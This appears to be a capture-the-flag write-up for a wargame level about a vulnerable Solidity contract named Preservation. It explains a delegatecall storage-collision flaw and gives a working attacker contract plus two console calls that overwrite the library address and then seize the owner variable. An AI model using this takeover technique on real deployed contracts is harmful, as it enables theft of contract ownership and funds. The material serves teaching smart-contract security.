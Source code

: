 We can attack this contract using `setFirstTime()` or `setSecondTime()`. `LibraryContract ` should be marked as liblary, but is marked as contract so it can have storage.
Delegate call executes calling logic on caller contrage storage. So calling one of `setTime()` we can override address to point to our contract. Using the same vulnerability  
we can override owner variable.

Firstly we need to create and deploy contract that will override owner variable:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract HackPreservation {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; // owner variable must have the same memory slot as variable is Preservation contract

    event SetTimerEmitted(address sender);

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

If contract is deployed we need to call fallowing function from `Preservation` contract.

```
await contract.setFirstTime('HACK_PRESERVATION_ADDRESS') // that will override timeZone1Library variable to address of our contract
await contract.setFirstTime(2137) // call to our contract, will override owner variable in Preservation contract
```
